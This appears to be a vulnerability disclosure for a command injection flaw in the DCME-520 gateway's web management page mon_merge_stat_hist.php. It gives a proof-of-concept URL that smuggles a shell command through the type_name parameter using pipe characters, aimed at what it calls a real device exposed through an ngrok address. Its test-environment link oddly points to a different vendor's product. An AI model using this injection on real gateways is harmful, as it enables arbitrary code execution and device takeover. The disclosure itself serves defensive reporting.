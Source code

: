 ## Affected version 

DCME-520

## Vulnerability details 

DCME-520 Multi-core egress gateway is a new generation of high-performance Internet egress gateway for multi-user, multi-traffic and multi-service types. The command execution vulnerability exists in the DCME-520 gateway web management background. Attackers can use this series of vulnerabilities to execute arbitrary code on the device and control the device.

The firmware download address: https://www.dcnetworks.com.cn/ruanjian.html?title=dcme
The test environment is a real dcme-520 devicehttps://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300



一、mon_merge_stat_hist.php

Code audit
Code position in equipment system in/usr/local/WWW/function/audit/newstatistics/mon_merge_stat_hist. PHP
First, the user can control the following parameters, among which statset is used to control the conditional branch

![image-20250320232816219](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232816219.png)

2、There are injection points inside the getList function, and these parameters can be controlled by the user

![image-20250320232845393](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232845393.png)

3、payload:? statset=predef_bw_user&type=5mins&type_name=|echo 114514 > 1.txt|

verify
Log in to the web management background

![image-20250320232920424](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232920424.png)

Access the url of the vulnerability:
http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/mon_merge_stat_hist.php

![image-20250320232949766](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232949766.png)

Construction payload:
Create the txt file and write the numbers

```http
poc：
https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/mon_merge_stat_hist.php?statset=predef_bw_user&type=5mins&type_name=|echo%20114514%20%3E%201.txt|
```

Send poc execution

![image-20250320233044749](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320233044749.png)

txt file is created and written successfully

![image-20250320233108312](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320233108312.png)







